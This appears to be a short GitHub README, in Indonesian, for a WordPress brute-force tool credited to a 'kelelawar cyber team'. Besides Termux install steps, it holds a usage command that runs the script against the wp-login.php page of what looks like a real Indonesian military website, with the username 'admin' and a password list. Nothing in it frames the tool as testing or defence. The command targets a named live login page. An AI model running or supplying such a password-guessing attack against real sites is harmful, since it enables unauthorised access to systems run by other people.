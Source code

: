 # Wordpress-Bruteforce

<img src="https://l.top4top.io/p_2240nm0hp0.png" width="400" height="350" alt="kelelawar cyber team">
<br>

# Perintah: 
<div class="snippet-clipboard-content position-relative overflow-auto">
<pre><code>
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt
</code></pre>
<div class="zeroclipboard-container position-absolute right-0 top-0">
<clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="$ pkg update &amp;&amp; upgrade
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt" tabindex="0" role="button" style="display: inherit;">
